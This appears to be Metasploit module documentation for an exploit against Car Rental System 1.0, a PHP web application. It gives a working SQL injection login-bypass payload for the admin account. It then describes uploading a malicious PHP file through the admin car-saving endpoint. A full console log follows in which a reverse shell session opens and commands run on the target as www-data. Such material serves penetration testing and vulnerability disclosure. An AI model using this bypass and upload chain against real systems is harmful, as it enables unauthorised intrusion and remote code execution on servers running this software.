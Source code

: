 ## Vulnerable Application

Car Rental System 1.0 is a web application that allows users to rent cars using an online portal. It was written using PHP and MySQL.

Vendor Homepage: https://www.sourcecodester.com/php/14544/car-rental-management-system-using-phpmysqli-source-code.html
Software Link: https://www.sourcecodester.com/download-code?nid=14544&title=Car+Rental+Management+System+using+PHP%2FMySQLi+with+Source+Code

to install, extract all files in a web directory, edit admin/db_connect.php, and create database following database/car_rental_db.sql

Users can log into the app as an administrator by using the username ` ' OR 1=1 limit 1#` , 
and a random word as password. `limit 1` is used as it ensures the database will select the first
user in the database, ADMIN, thereby logging the attacker in as the administrative user.

Once authenticated as an administrator, attackers can then upload arbitrary files via the `/admin/ajax.php?action=save_car` page, which will then be placed under the `/admin/` directory on the web server. By uploading
an executing a malicious PHP file, attackers can gain arbitrary code execution on the web server as the `www-data` user.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/car_rental_system`
3. Set the `RHOST`.
4. Set the `TARGETURI`.
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm that you now have a shell on the target machine as the `www-data` user.

**TARGETURI**
The path to the Car Rental System HOME directory.


## Scenarios

### Debian 10 running Apache2 and php7.3

```
msf6 exploit(multi/php/car_rental_system) > use exploit/multi/php/car_rental_system
[*] Using configured payload php/reverse_php
msf6 exploit(multi/php/car_rental_system) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/php/car_rental_system) > set TARGETURI /car_rental/
TARGETURI => /car_rental/
msf6 exploit(multi/php/car_rental_system) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/php/car_rental_system) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] Attempting Login
msf6 exploit(multi/php/car_rental_system) > [*] Cookie: PHPSESSID=uokk0ufj0ujbphrte03upmsej7;
[*] Creating new car
[*] Last Images inserted id=6
[*] index.php?page=manage_car&id=6
[*] assets/uploads/cars_img/1605195300_sh_ell.php
[*] Command shell session 1 opened (192.168.0.114:4444 -> 192.168.0.130:56876) at 2020-11-12 16:34:58 +0100
msf6 exploit(multi/php/car_rental_system) > 
msf6 exploit(multi/php/car_rental_system) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell php/php               192.168.0.114:4444 -> 192.168.0.130:56876 (192.168.0.130)

msf6 exploit(multi/php/car_rental_system) > sessions 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux 6784e50e1781 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64 GNU/Linux

```
